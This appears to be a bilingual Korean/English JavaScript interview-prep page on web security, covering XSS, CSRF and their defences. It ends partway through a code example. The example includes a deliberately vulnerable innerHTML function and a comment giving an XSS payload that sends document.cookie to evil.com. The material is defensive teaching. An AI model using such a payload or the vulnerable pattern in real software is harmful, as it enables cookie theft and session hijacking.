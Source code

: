 # JavaScript 개발자 인터뷰 질문 Part 7: 보안

## 보안

25. **JavaScript에서 발생할 수 있는 보안 취약점과 이를 방지하는 방법에 대해 설명해주세요.**
    - XSS(Cross-Site Scripting), CSRF(Cross-Site Request Forgery) 등
    
    **설명:** JavaScript 웹 애플리케이션에서는 다양한 보안 취약점이 발생할 수 있습니다. XSS(Cross-Site Scripting)는 공격자가 웹 페이지에 악성 스크립트를 삽입하여 사용자의 브라우저에서 실행되게 하는 공격으로, 사용자 입력을 적절히 검증하고 이스케이핑하거나, Content-Security-Policy 헤더를 사용하여 방지할 수 있습니다. CSRF(Cross-Site Request Forgery)는 사용자가 인증된 상태에서 공격자의 사이트를 방문할 때 원치 않는 요청을 실행하게 하는 공격으로, CSRF 토큰, SameSite 쿠키 속성, 중요 작업에 추가 인증을 요구하여 방지할 수 있습니다. 이외에도 인젝션 공격(SQL, NoSQL, Command), 취약한 의존성 사용, 부적절한 인증 및 세션 관리, 민감 정보 노출, 보안 설정 오류 등이 있습니다. 이러한 취약점을 방지하기 위해서는 입력 검증, 출력 이스케이핑, 최신 보안 라이브러리 사용, HTTPS 적용, 적절한 CORS 설정, 정기적인 보안 감사 및 업데이트, 최소 권한 원칙 준수 등의 방법을 사용해야 합니다. 또한 개발자는 OWASP(Open Web Application Security Project)의 가이드라인을 따르고, 보안 중심의 개발 문화를 조성하는 것이 중요합니다.

    **Description:** JavaScript web applications can be vulnerable to various security threats. XSS (Cross-Site Scripting) allows attackers to inject malicious scripts into web pages that execute in users' browsers, which can be prevented by properly validating and escaping user input or using Content-Security-Policy headers. CSRF (Cross-Site Request Forgery) tricks authenticated users into executing unwanted actions when visiting an attacker's site, preventable through CSRF tokens, SameSite cookie attributes, and requiring additional authentication for important operations. Other vulnerabilities include injection attacks (SQL, NoSQL, Command), using vulnerable dependencies, improper authentication and session management, sensitive information exposure, and security misconfiguration. To prevent these vulnerabilities, developers should implement input validation, output escaping, use up-to-date security libraries, apply HTTPS, configure CORS properly, conduct regular security audits and updates, and follow the principle of least privilege. Additionally, developers should follow OWASP (Open Web Application Security Project) guidelines and foster a security-focused development culture.
    
    **예시:**
    ```javascript
    // 1. XSS (Cross-Site Scripting) 취약점 예시
    
    // 취약한 코드: 사용자 입력을 그대로 삽입
    function vulnerableToXSS() {
      // URL에서 파라미터 가져오기
      const userInput = new URLSearchParams(window.location.search).get('comment');
      
      // 위험: 사용자 입력을 그대로 DOM에 삽입
      document.getElementById('comments').innerHTML = userInput;
      
      // 공격자가 다음과 같은 URL을 사용할 수 있음:
      // https://example.com/page?comment=<script>alert('XSS');</script>
      // 또는 더 위험한 코드:
      // https://example.com/page?comment=<img src="x" onerror="fetch('https://evil.com/steal?cookie='+document.cookie)">
    }
    
    // XSS 방지 방법: 입력값 이스케이핑
    function preventXSS() {
      const userInput = new URLSearchParams(window.location.search).get('comment');
      
      // 방법 1: 텍스트 콘텐츠 사용
      document.getElementById('comments').textContent = userInput; // innerHTML 대신 textContent 사용
      